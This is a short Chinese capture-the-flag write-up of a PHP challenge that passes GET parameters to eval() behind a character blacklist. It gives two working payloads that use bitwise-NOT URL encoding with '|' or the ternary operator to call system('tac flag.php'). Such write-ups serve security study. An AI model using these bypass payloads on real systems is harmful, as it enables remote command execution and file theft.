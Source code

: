 # 知识点
未过滤 ~ 和 | <br />| 构造有些困难，尝试使用 ~<br />但过滤+ - * 所以尝试用 | 与左右两边的数字或运算绕过 或者使用 ？ ： 三目运算符绕过
# 思路
```python
<?php

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```
```python
方法一 ?v1=0&v2=0&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F)|
方法二 ?v1=0&v2=0&v3=?(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F):
    ? .. : 三目运算符
```
![image.png](./images/20231017_2350036901.png)
